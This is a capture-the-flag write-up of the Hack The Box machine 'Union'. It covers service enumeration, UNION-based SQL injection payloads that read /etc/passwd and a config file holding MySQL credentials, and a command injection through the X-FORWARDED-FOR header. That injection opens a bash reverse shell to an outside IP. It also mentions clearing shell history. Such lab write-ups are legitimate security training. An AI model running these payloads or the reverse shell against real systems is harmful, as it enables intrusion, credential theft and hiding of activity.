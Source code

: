# Target: HTB – Union

## Engagement Overview
**Target:** Union  
**Box IP:** 10.10.11.128  

---

### Objectives
- Enumerate services and web endpoints
- Identify SQL Injection vulnerability
- Extract credentials and escalate to SSH access
- Investigate privilege escalation paths
- Retrieve system flags

---

## Service Enumeration

**Nmap Results:**
```bash
nmap -sV -sC -oA nmap/union 10.10.11.128

Nmap scan report for 10.10.11.128
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Gobuster Findings:**
```bash
/index.php           (Status: 200) [Size: 1220]
/config.php          (Status: 200) [Size: 0]
/challenge.php       (Status: 200) [Size: 772]
/firewall.php        (Status: 200) [Size: 13]
/.htaccess           (Status: 403)
/.htpasswd           (Status: 403)
```

---

## Methodologies

1. **Web Enumeration** using Gobuster and manual browsing.  
2. **SQL Injection Testing** – manually crafted UNION statements due to SQLMap filters.  
3. **Source Code Review** – extracted credentials from exposed `config.php`.  
4. **Authentication Bypass** – replayed crafted requests (see PoC).  
5. **Post-Exploitation** – leveraged command injection via manipulated `X-FORWARDED-FOR` header.  

---

## Initial Access

**Vulnerability Explanation:**  
The target web application was vulnerable to SQL Injection. SQLMap was filtered, requiring manual UNION statements to extract database contents and read sensitive files.

**SQL Injection Payloads:**

```sql
# curl -s -X POST http://10.10.11.128 -d "player='

-- Dump flag
union select group_concat(one) from flag;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Dump players table
union select group_concat(player) from players;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read OS release info
union select load_file('/etc/lsb-release');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read /etc/passwd
union select load_file('/etc/passwd');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read PHP config file (contains MySQL creds)
union select load_file('/var/www/html/config.php');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
```

**HTTP Request (flag.req):**

```http
POST /index.php HTTP/1.1
Host: 10.10.11.128
Content-Length: 12
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=mvi1jq6khbq7p2lh16hs7dntgm

player=union
```

**Penetration:**  
- Crafted UNION SQL statements to retrieve the flag and configuration data.  
- Extracted MySQL credentials from `config.php`.  
- Authenticated to the web application with extracted creds.  
- Application logic enabled SSH (via iptables) upon successful authentication.  

**SSH Access:**  
Logged in successfully using MySQL credentials.  

---

## Privilege Escalation

After gaining shell access, source code analysis revealed the application used an IP whitelisting function based on the `X-FORWARDED-FOR` header.  
This input was unsanitized and allowed direct **command injection**.  

By forging the header with injected commands, root shell access was obtained.  

```bash
# Burp Repeater

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
```

---

## House Cleaning

- Removed enumeration artifacts.  
- Cleared shell history.  
- Left no residual processes or altered configurations.  

---

## Post-Exploitation

**Tools Utilized**  
- `nmap`  
- `gobuster`  
- Burp Suite (for request replay)  
- Manual SQL Injection (UNION)  
- SSH  

**Key Takeaways**  
- SQLMap filters can be bypassed by manual UNION-based injection.  
- Configuration files (`config.php`) often expose credentials.  
- Application logic enabling SSH through iptables demonstrates chained exploitation.  
- Blindly trusting headers (`X-FORWARDED-FOR`) introduces critical injection vectors.  
